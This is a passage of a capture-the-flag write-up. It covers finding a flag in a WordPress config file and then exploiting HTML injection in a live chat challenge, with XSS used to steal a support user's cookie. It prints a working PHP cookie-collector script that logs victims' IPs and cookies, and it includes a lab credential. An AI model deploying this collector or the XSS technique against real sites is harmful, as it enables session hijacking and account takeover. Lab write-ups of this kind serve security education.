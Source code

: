 Next thing I did was to find the flag

Searching for common places didn't give the flag

So I decided to check the wordpress config file

Cause it holds the credential needed to access mysql

And I got the flag there
![](https://hackmd.io/_uploads/B1WjZm9pn.png)

```
Flag: flag{add_action(wordpress_plugins_strike_again!)}
```


#### Big Money
![](https://hackmd.io/_uploads/SkMgQQ5T3.png)

We are given a credential

```
bigspender95:winnerwinnerchickendinner
```

Going over to the url shows this
![](https://hackmd.io/_uploads/HJCQQmqa2.png)

I used the credential given to login
![](https://hackmd.io/_uploads/SycLm75T3.png)

It seems like a live chat application

To confirm I sent a word
![](https://hackmd.io/_uploads/HJDjXXcTh.png)

Immediately the support user replies back

I tried injecting html tag
![](https://hackmd.io/_uploads/ry-ENmqph.png)

Well that worked

So at this point it's obvious we need to perform XSS to steal the support user cookie

Here's the payload I used

First `index.php` contained this

```php
<?php
if (isset($_GET['c'])) {
    $list = explode(";", $_GET['c']);
    foreach ($list as $key => $value) {
        $cookie = urldecode($value);
        $file = fopen("cookies.txt", "a+");
        fputs($file, "Victim IP: {$_SERVER['REMOTE_ADDR']} | Cookie: {$cookie}\n");
        fclose($file);
    }
}
?>
```
